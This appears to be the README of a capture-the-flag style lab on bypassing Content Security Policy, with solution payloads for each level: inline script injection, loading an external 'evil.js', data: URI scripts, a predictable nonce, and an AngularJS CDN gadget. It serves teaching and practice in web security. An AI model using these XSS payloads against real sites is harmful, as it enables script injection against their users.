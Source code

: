 # CSP Bypass Lab
Bypass project of CSP security standard, which is a protection method for XSS vulnerability.

http://cspbypass.ml

## What is CSP
Content Security Policy is a computer security standard that was introduced to prevent cross-site scripting, click-through, and other code injection attacks resulting from the execution of malicious content in the context of a trusted web page.
## Challenges
- unsafe-inline
- External Resource
- data directive
- src nonce
- Common uses JS CDN
- Google Callback Functions

## Solutions
Check https://csp-evaluator.withgoogle.com before solutions.
#### Level 1
As a result of the 'unsafe-inline' directive used, if the input entered contains a script tag, the javascript is triggered. Example payload : 

```sh
<script>alert(1)</script>
```
#### Level 2
JS codes from yourjavascript.com, which is an external resource, will be allowed. It is triggered by malicious JS code. Go to yourjavascript.com , create malicious code and upload.
```sh
<script type="text/javascript" src="http://yourjavascript.com/0513280132/evil.js"></script>
```

#### Level 3
data: URI in script-src allows the execution of unsafe scripts.
```sh
<script src=data:text/javascript,alert(1337)></script>
```

### Level 4
We see the base64 encode form of current time's as the nonce value in response as the CSP rule. Example payload : 
```sh
<script nonce="MjcuMDMuMjAyMS8yMjoxNw==">alert(1)</script>
```

### Level 5
One of the most used JavaScript CDNs is cdnjs.cloudflare.com. At this level, we will try to trigger XSS on a page that has Cloudflare allowed CDN resources.
```sh
<Script Src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js> </Script><K Ng-App>{{$new.constructor('alert(1)')()}}
```

### Level 6
Same as the previous level, here you can use callback functions.

### Level 7
Given this CSP header:
Content-Security-Policy: frame-src https://example.com
The following <iframe> is blocked and won't load:
<iframe src="https://not-example.com/"></iframe>
Call the allowed page in Frame.

##### Useful Resources

- https://www.netsparker.com/blog/web-security/content-security-policy/
- https://brutelogic.com.br/blog/csp-bypass-guidelines/


